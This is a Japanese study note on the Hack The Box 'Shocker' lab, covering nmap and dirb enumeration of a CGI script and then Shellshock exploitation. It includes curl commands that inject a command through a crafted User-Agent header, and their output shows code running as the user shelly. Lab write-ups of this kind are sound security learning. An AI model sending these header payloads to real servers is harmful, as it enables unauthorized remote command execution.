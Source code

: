 # Shocker

* 疎通確認

  ```bash
  └─$ ping 10.10.10.56
  PING 10.10.10.56 (10.10.10.56) 56(84) bytes of data.
  64 bytes from 10.10.10.56: icmp_seq=9 ttl=63 time=219 ms
  ```

* ディレクトリ作成

  ```bash
  ┌──(kali㉿kali)-[~/Documents/HTB/Shocker]
  └─$ pwd                                                            
  /home/kali/Documents/HTB/Shocker
  ```

* nmap実施

  ```bash
  nmap -sV 10.10.10.56                                       
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-05 19:57 JST
  Nmap scan report for 10.10.10.56
  Host is up (0.19s latency).
  Not shown: 998 closed tcp ports (conn-refused)
  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
  ```

* httpにアクセスしてみる。（かわいい）

  ![image-20220705195956365](C:\Users\nflabs-03\Documents\git\TIL\TIL\HackTheBox\img\image-20220705195956365.png)

* Apache httpd 2.4.18の脆弱性を確認する

  ```bash
  $ searchsploit Apache httpd 2.4.18
  Exploits: No Results                                                     
  Shellcodes: No Results 
  ```

* OpenSSHの脆弱性を確認する

  ```bash
  earchsploit OpenSSH 7.2p2
  ------------------------------------------------ ---------------------------------
   Exploit Title                                  |  Path
  ------------------------------------------------ ---------------------------------
  OpenSSH 2.3 < 7.7 - Username Enumeration        | linux/remote/45233.py
  OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)  | linux/remote/45210.py
  OpenSSH 7.2p2 - Username Enumeration            | linux/remote/40136.py
  OpenSSH < 7.4 - 'UsePrivilegeSeparation Disable | linux/local/40962.txt
  OpenSSH < 7.4 - agent Protocol Arbitrary Librar | linux/remote/40963.txt
  OpenSSH < 7.7 - User Enumeration (2)            | linux/remote/45939.py
  OpenSSHd 7.2p2 - Username Enumeration           | linux/remote/40113.txt
  ------------------------------------------------ ---------------------------------
  Shellcodes: No Results
  ```

  * Username Enumerationできても特に有用なことがなさそうなので、UsePrivilegeSeparation DisableについてPocを試してみたい。
    上記の機能が有効に働かないことでroot権限を奪取することができるみたい。
    
  * [Exploit-DB](https://www.exploit-db.com/exploits/40962)
  
    * Pocをダウンロードしようとしたがすでにネット上からは消えていた。
  
    * metasploitでも検索したがそれらしいものがなかった。
  
      ```bash
      msf6 > search OpenSSH
      
      Matching Modules
      ================
      
         #  Name                                         Disclosure Date  Rank       Check  Description
         -  ----                                         ---------------  ----       -----  -----------
         0  post/windows/manage/forward_pageant                           normal     No     Forward SSH Agent Requests To Remote Pageant
         1  post/windows/manage/install_ssh                               normal     No     Install OpenSSH for Windows
         2  post/multi/gather/ssh_creds                                   normal     No     Multi Gather OpenSSH PKI Credentials Collection
         3  auxiliary/scanner/ssh/ssh_enumusers                           normal     No     SSH Username Enumeration
         4  exploit/windows/local/unquoted_service_path  2001-10-25       excellent  Yes    Windows Unquoted Service Path Privilege Escalation
      
      
      Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/local/unquoted_service_path
      
      ```

* ブラウザの脆弱性を確認してみる。

  わからなかったので、writeupに進む

### 以降 Writeupを参照

* [参考writeup](https://qiita.com/Griffin/items/1eca2ad64df7c67c3d34)
* 脆弱性調査までは大体一緒であった。
* webサイトの調査から一緒に実施していく。

### 情報列挙(Enumeration)

* ディレクトリ探索

  * dirbを実行してみる。

    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo dirb http://10.10.10.56
    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------
    
    START_TIME: Sat Jul  9 11:35:36 2022
    URL_BASE: http://10.10.10.56/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
    
    -----------------
    GENERATED WORDS: 4612
    
    ---- Scanning URL: http://10.10.10.56/ ----
    + http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)                     
    + http://10.10.10.56/index.html (CODE:200|SIZE:137)                   
    + http://10.10.10.56/server-status (CODE:403|SIZE:299)
    -----------------
    END_TIME: Sat Jul  9 11:44:29 2022
    DOWNLOADED: 4612 - FOUND: 3
    ```
    

* /cgi-bin/にアクセスすると403 forbittenがかえってくる

  ![image-20220709113945137](img/image-20220709113945137.png)

  * [cgiとは](https://www.tohoho-web.com/wwwcgi1.htm)
    * 「CGI」とはWWWサーバーがプログラムを起動する際の起動方法（環境変数の名前や値）を定めた仕様の名称。この仕様に基づいて作成されたプログラムを「CGIプログラム」と呼ぶ。「CGIプログラム」のうち、Perl, awk, shなどコンパイル作業が不要なスクリプト言語で記述されたものを「CGIスクリプト」と呼びます。CGIプログラムはPerlで記述されたものが多いが、環境変数と標準入力を参照できて、結果を標準出力に書き出せるものであればC言語、C＋＋言語、VisualBasicでもなんでも構わない。
  * cgi-binディレクトリがあるということは、その配下に何かしらのcgiスクリプトがあることが疑われる。

* オプションで-Xオプションを指定し、探索したい拡張子を指定して実行する。

  ```bash
  └─$ dirb http://10.10.10.56/cgi-bin/ -X .sh,.pl,.txt,.php,.py
  -----------------
  DIRB v2.22    
  By The Dark Raver
  -----------------
  
  START_TIME: Sat Jul  9 11:50:38 2022
  URL_BASE: http://10.10.10.56/cgi-bin/
  WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
  EXTENSIONS_LIST: (.sh,.pl,.txt,.php,.py) | (.sh)(.pl)(.txt)(.php)(.py) [NUM = 5]
  
  -----------------
  GENERATED WORDS: 4612                                                          
  ---- Scanning URL: http://10.10.10.56/cgi-bin/ ----
  + http://10.10.10.56/cgi-bin/user.sh (CODE:200|SIZE:118)
  -----------------
  END_TIME: Sat Jul  9 12:34:55 2022
  DOWNLOADED: 23060 - FOUND: 1
  ```

  *  -X <extensions> / -x <exts_file> : Append each word with this extensions.

* user.shの中身を見てみる。

  ```bash
  wget http://10.10.10.56/cgi-bin/user.sh
  --2022-07-09 11:59:40--  http://10.10.10.56/cgi-bin/user.sh
  10.10.10.56:80 に接続しています... 接続しました。
  HTTP による接続要求を送信しました、応答を待っています... 200 OK
  長さ: 特定できません [text/x-sh]
  `user.sh' に保存中
  
  user.sh                   [ <=>                      ]     119  --.-KB/s 時間 0s       
  
  2022-07-09 11:59:41 (307 KB/s) - `user.sh' へ保存終了 [119]
  
  ┌──(kali㉿kali)-[~]
  └─$ ls
  Desktop    Downloads  Pictures  Templates  ansible  user.sh
  Documents  Music      Public    Videos     pentest
  
  ┌──(kali㉿kali)-[~]
  └─$ cat user.sh 
  Content-Type: text/plain
  
  Just an uptime test script
  
   22:59:41 up 29 min,  0 users,  load average: 0.00, 0.00, 0.00
  
  
  ```

  * ファイルの内容から、Linuxサーバーのuptimeコマンドを実行していると推測（難しい...)

    * [uptimeコマンド](https://eng-entrance.com/linux-command-uptime)
      * Linuxの稼働時間を表示する

  * shellにコマンドを渡して実行しているという挙動からShellShockの脆弱性を想起するらしい。

    https://www.digicert.com/jp/blog/shellshock-cve-2014-6271/

  * Nmap NSEのスクリプトを活用し、shellshockの脆弱性が内在しているかを確認する。

    ```
    
    ```

  * 脆弱性を悪用してコマンド実行してみる

    ```c
    //実行できなかった
    curl -A "() { :;};echo hello;/usr/bin/id" [http://10.10.10.56/cgi-bin/user.sh](http://10.10.10.56/cgi-bin/user.sh)
    ```

  * writeupのコマンドで実行できなかったので別のサイトを参照

    https://www.linkedin.com/pulse/hack-box-htb-shocker-walkthrough-abdulhakim-%C3%B6ner

    ```bash
     curl -A "() { :; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://10.10.10.56/cgi-bin/user.sh
    
    uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
    ```

    

  * なぜ「() { :;};」でコマンドが実行されるかの解説

    https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf

## 所感

* nmapを-sV＋-p-でやるとものすごく時間かかるのでやめる。